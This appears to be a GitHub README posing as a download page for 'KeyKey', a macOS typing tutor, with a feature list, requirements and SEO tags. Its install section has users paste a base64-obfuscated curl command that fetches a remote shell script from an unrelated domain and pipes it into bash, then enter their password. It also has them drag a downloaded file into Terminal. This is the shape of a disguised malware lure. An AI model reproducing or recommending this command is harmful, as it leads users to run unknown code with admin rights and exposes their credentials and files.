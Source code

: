 # KeyKey for Mac – Typing Trainer & Keyboard Tutor

![KeyKey Screenshot](https://static.macupdate.com/screenshots/249135/m/keykey-screenshot.png?v=1662619030)

## 📥 Download KeyKey for macOS

[![⬇️ Download KeyKey Mac](https://img.shields.io/badge/Download-KeyKey%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/KeyKey)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is KeyKey for Mac?

KeyKey is a clean and distraction-free typing tutor designed for macOS. It adapts to your individual skill level and learning pace, offering touch typing training for multiple keyboard layouts including QWERTY, AZERTY, and Dvorak.

The app helps users, students, and professionals build muscle memory, improve typing accuracy, and increase speed through focused daily practice. With real-time stats, intelligent lesson progress, and zero unnecessary gamification, KeyKey keeps the learning process effective and minimalist.

---

![KeyKey Lesson View](https://macsources.com/wp-content/uploads/2018/06/KeyKey_1.jpg)

---

## ⚙️ Key Features

- ⌨️ **Adaptive Lessons** – Automatically adjusts to your typing level.
- 📊 **Real-Time Feedback** – Tracks speed, accuracy, and progress.
- 🌐 **Multilingual Layouts** – Supports QWERTY, AZERTY, Dvorak, and others.
- 🎯 **Distraction-Free UI** – No gamification, just clean focus.
- 📈 **Stats & Reports** – Visualize your learning curve and time invested.
- 💻 **macOS Native** – Built specifically for macOS Ventura and newer.
- 🧠 **Muscle Memory Training** – Efficient drills to reinforce habits.
- 🖥️ **Dark Mode Support** – Looks great on all macOS themes.

---

## 📦 System Requirements

- macOS 10.13 or later  
- Supports macOS Ventura, Monterey, Sonoma  
- Apple Silicon (M1/M2/M3) and Intel Macs  
- 100MB available disk space  

---

## 🔍 Tags

keykey mac, key key mac, keykey mac download, keykey mac free download, keykey typing tutor mac, keykey typing app, typing software for mac, keykey app osx, mac typing trainer, touch typing mac app, keyboard learning mac, type better mac, keykey qwerty layout, keyboard practice mac, typing speed app mac
